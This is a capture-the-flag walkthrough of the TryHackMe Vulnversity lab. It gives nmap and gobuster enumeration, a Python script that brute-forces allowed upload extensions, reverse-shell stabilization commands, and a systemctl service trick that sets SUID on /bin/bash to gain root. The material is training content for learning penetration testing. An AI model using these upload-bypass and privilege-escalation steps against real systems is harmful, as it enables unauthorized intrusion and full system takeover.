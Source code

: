```yaml
---
title: 'TryHackMe Vulnversity'
image: 'https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/11.png'
created: 2021-08-09
updated: 2022-12-19
tags:
    - 'tryhackme'
    - 'ctf'
    - 'file upload'
---
```



This a walk-through of TryHackme room [Vulnversity](https://tryhackme.com/room/vulnversity). As always we start with the enumeration using nmap. 
```
nmap -sC -sV -A -T4 -v -oN scan/nmap 10.10.104.250 -Pn
```
- Let's break it down 
	- `-sC` for default scripts
	- `-sV` service version of the services running 
	- `-A` aggresive scan
	- `-T4` speed of the scan
	- `-v` for verbosity 
	- `-oN` save the output to a normal file
	- `-Pn` don't ping the target assuming the host is live  


- ***Enumeration***
- ![](/assets/nmap_thm.png)

###### Task 2
- So we can see there are 6 ports open; `21, 22, 139, 445, 3128, 3333`
- Due to running a service version scan (`-sV`) we can see the version of the squid proxy running on port 3128
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/13.png)
- The `-p-400` will run a scan on the first `400` ports 
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/14.png)
- The `-n` will not resolve `DNS`
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/15.png)
- By the http banner we can see the system is running `Ubuntu`. We can also user the `-O` option to do OS detection 
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/16.png)
- The web-server is running on `3333`
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/17.png)


###### Task 3

For this section we will use the tool `gobuster`.

GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.

Download GoBuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`


- Let's start the directory listing. 

`gobuster dir -u http://10.10.104.250:3333 -w /usr/share/wordlists/dirb/big.txt -t 50`

- Break down
	-  `dir` to let gobuster know we're doing directory brute-forcing 
	- `-u` to specify the url 
	- `-w` to specify the wordlist 
	- `-t` to specify threads(speed). I found 50 works well. Anything more than 60 gives errors.
- If you still get errors you can remove them by using `2>/dev/null` which will redirect the errors to `/dev/null` dir which is practically no-where. The command will look like this 
```bash
gobuster dir -u http://10.10.104.250:3333 -w /usr/share/wordlists/dirb/big.txt -t 50 2>/dev/null | tee gobuster.log

```
- Using tee to save the output only. I personally don't like the `-o` option which gobuster provides 

- We can see there is a `internal` dir gobuster found 
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/18.png)
	- Navigating to this dir we can see there is a upload form
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/19.png)

###### Task 4
- Let's see what we can do with it. At first we should see what files we are allowed upload. I tried uploading a jpg file 
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/110.png)
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/111.png)
- It's not allowed. We can try uploading a php file. See if we can get the php info
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/112.png)
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/113.png)
- We can't upload any php file. If we do this manually it'll take unnecessary time & effort. Let's automate this process. First we have to see how the file upload is working. We can use burp or simply the network tab of our browser. We can use burp to check which extension will not be blocked. But I'll write a simple python script to do this.
```python
#!/usr/bin/python3
import requests
from os import rename

ip = "10.10.104.250"
url = f"http://{ip}:3333/internal/index.php"

extensions = [".php", ".php3", ".php4", ".php5", ".php6", ".phtml"]

old_file = "shell.php"
file_name = "shell"

for ext in extensions:
	new_file = file_name + ext
	#print(file)
	rename(old_file, new_file)

	files = {"file" : open(new_file, "rb")}
	r = requests.post(url, files=files)
	#print(r.text)	
	if "Extension not allowed" in r.text:
		print(f"{ext} not allowed")
	else:
		print(f"{ext} allowed!!")
		break

	old_file = new_file

```

- So this script is basically going through each extension of the extensions list & checking if the file extension is allowed or not & renaming it then sending the file to the web-server using the requests module. So we can the `.phtml` is allowed
	-  ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/114.png)
- Rev-shell time. I'm using the one which comes default with kali(pentestmoney).In the shell we have to change these 2 variables
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/115.png)
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/116.png)
- Success. Next setup a netcat listener & navigate to the file on the server.
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/117.png)
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/118.png)
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/119.png)
- We got the shell but it's limited. We have to stabilize it.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

- We got the user flag. User is `Bill`
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/120.png)

###### Task 5
- Now Privilege Escalation. As this task suggests we're gonna search for [SUID binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
- Search for SUID bits on the machine `find / -perm -u=s -type f 2>/dev/null`
- There is an unusual binary here
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/121.png)
- [GTFO bins](https://gtfobins.github.io/#) is the goto for any kind of binary based Privilege Escalation.
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/122.png)
- So we'll make a `System service` named `systemctl` & run it using it's relative path `./systemctl` & we'll execute the command `/bin/bash -c "id > /tmp/output"`

- The above method dosen't work so I used this one. This one is simple I'm creating a service and giving `/bin/bash` SUID permission with `+s` option. Then executing it using the original systemctl binary.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

- If we do `bash -p` now we can see we have effective id as root. So we own the system now
	- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/tryhackme/vulnversity/images/123.png)